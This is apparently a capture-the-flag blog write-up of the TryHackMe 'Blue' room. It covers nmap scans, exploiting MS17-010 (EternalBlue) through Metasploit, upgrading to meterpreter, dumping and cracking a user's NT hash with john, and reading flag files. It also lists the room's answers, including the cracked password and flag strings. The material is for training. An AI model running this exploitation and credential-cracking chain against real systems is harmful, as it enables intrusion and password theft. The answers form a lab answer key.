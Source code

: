 ```yaml
---
title: Write-Up [THM] Blue
template: "post"
date: "2020-08-28"
draft: false
category: "Write-Ups, TryHackMe"
tags:
  - "TryHackMe"
  - "Windows"
  - "Blue"
social-image: "/media/thm/blue/theme.png"
description: "It's a write-up about the room : [Try Hack Me - Room : Blue](https://tryhackme.com/room/blue)"
---
```


It's a write-up about the room : [Try Hack Me - Room : Blue](https://tryhackme.com/room/blue)

# [Task 1] - Recon

![Task 1](/media/thm/blue/task-1.png)

First, we deploy the instance.  
We scan the machine with the command : `nmap -sV MACHINE_IP`. 

	```
	PORT      STATE SERVICE            VERSION
	135/tcp   open  msrpc              Microsoft Windows RPC
	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
	3389/tcp  open  ssl/ms-wbt-server?
	49152/tcp open  msrpc              Microsoft Windows RPC
	49153/tcp open  msrpc              Microsoft Windows RPC
	49154/tcp open  msrpc              Microsoft Windows RPC
	49158/tcp open  msrpc              Microsoft Windows RPC
	49160/tcp open  msrpc              Microsoft Windows RPC
	Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
	```

* How many ports are open with a port number under 1000? `3`

* What is this machine vulnerable to?  
We run the command :  `nmap --script vuln MACHINE_IP` 
	
	```
	Host script results:
	|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
	|_smb-vuln-ms10-054: false
	|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
	| smb-vuln-ms17-010: 
	|   VULNERABLE:
	|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
	|     State: VULNERABLE
	|     IDs:  CVE:CVE-2017-0143
	|     Risk factor: HIGH
	|       A critical remote code execution vulnerability exists in Microsoft SMBv1
	|        servers (ms17-010).
	|           
	|     Disclosure date: 2017-03-14
	|     References:
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
	|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
	|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
	```

We find the vulnerability **ms17-010**.
	
# [Task 2] - Gain Access 

> Exploit the machine and gain a foothold.

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

We run the command : `use ms17-010` and obtain the result below :

```
	Matching Modules
	================
	
	   #  Name                                           Disclosure Date  Rank     Check  Description
	   -  ----                                           ---------------  ----     -----  -----------
	   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
	   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
	   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
	   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
	   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
	   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

So, the full path of the exploitation code is **exploit/windows/smb/ms17_010_eternalblue_win8**.  
After that, we exploit the vulnerability 3 : `use 3`

* Show options and set the one required value. What is the name of this value ?

We use `show options` on msfconcole and the required value is `RHOSTS`.

# [Task 3] - Escalate

> Escalate privileges, learn how to upgrade shells in metasploit.

On msfconsole we do : `use post/multi/manage/shell_to_meterpreter` and `set session 1`.
After, we do `sessions` and `sessions -i 2`.

# [Task 4] - Cracking

> Dump the non-default user's password and crack it!

In the meterpreter we use `hashdump` and find the name of the non-default user : **Jon**.

We use `john jon.hash --format=NT --wordlist=/opt/rockyou.txt`.   
After that, to see the passwaord we do : `john jon.hash --format=NT --show` and find **alqfna22**.

# [Task 5] - Find flags!

* Flag 1 ? 

In the meterpreter with `ls` we find the file `flag1.txt` and use `cat` to read it.  
The flag 1 is `access\_the\_machine`.

* Flag 2 ?

The file `flag2.txt` is hidden in `Windows/System/config`.  
The flag is `sam\_database\_elevated\_access`.

* Flag 3 ? 

This one is hidden in the file `flag3.txt` in the directory : `Users/Jon/Documents`.  
The flag is `admin\_documents\_can\_be\_valuable`.